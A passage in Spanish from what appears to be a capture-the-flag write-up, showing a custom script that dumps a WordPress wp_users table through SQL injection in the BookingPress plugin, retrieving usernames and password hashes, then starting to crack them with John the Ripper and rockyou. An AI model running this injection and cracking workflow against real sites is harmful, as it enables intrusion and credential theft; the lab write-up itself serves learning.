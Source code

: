 Jmmm, hay una de usuarios, a verla:

```bash
 python3 bookingPresSQLi_union.py -q blog wp_users
Dumpeando info mediante un SQLi...

Columna: ID
Columna: user_login
Columna: user_pass
Columna: user_nicename
Columna: user_email
Columna: user_url
Columna: user_registered
Columna: user_activation_key
Columna: user_status
Columna: display_name
```

Tiene algunos campos llamativos, pero empecemos con el username y la password:

```bash
 python3 bookingPresSQLi_union.py -q blog wp_users user_login
Dumpeando info mediante un SQLi...

user_login: admin
user_login: manager
```

Epa, dos usuarios... Estas serían sus contraseñas:

```bash
 python3 bookingPresSQLi_union.py -q blog wp_users user_pass 
Dumpeando info mediante un SQLi...

user_pass: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
user_pass: $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

Estas contraseñas están hasheadas con alguno de los siguientes algoritmos: `phpass, WordPress (MD5), Joomla (MD5)` (lo sé usando [esta lista de ejemplos](https://hashcat.net/wiki/doku.php?id=example_hashes) y buscando el mismo "formato" de hash, si no existen muchas herramientas para validar que tipo de hash tenemos), así que debemos intentar un crackeito guapo a ver si logramos romperlos y verlas en texto plano, así que tomemos las dos contraseñas, agreguémoslas a un archivo en nuestro sistema y démole un formato lindo para saber de quién es cada contraseña:

```bash
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

Y con [john](https://www.openwall.com/john/) procedemos a crackear:

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt bookingpresSQLi_users.hash
```

Esperamos un ratico yyyyyyyyyyy:
